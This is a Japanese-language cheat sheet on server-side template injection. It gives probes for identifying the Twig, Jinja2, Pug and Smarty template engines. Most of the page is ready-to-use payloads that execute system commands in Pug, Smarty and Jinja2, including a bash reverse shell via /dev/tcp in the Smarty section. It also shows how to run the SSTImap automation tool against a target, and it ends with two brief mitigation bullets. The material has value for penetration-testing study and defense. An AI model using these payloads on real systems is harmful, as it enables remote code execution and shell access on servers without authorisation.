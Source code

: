 # SSTI サーバー側テンプレートインジェクション

## テンプレートの判別

```
# Twig（PHP）
{{7*'7'}} -> 49

# Jinja2（Python）
{{7*'7'}} -> 7777777

# Pug/（旧称 Jade）（Node.js）
#{7*7} -> 49

＃Smarty
{'Hello'|upper} -> HELLO
```

## システムコマンド

### Pug

javascript コードを直接実行できる

```javascript
#{root.process.mainModule.require('child_process').spawnSync('ls', ['-al']).stdout}
```

### Smarty

PHP コードを直接実行できる

```PHP
{system("ls")}

{exec("/bin/bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'")}
```

### Jinja2

```Python
# objectクラスのサブクラス一覧
{{"".__class__.__mro__[1].__subclasses__()}}

# <class '_sitebuiltins._Helper'> を使って、
# subprocess.open("ls") を実行
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(["ls", "-al"])}}
```

## SSTImap 自動化

### インストール

```shell
git clone https://github.com/vladko312/SSTImap.git
cd SSTImap
pip install -r requirements.txt
```

### 実行

```shell
python3 sstimap.py -X POST -u 'http://$TARGET/' -d 'page='
```

## セキュリティ

- ユーザー入力のサニタイズ
- 環境のサンドボックス化
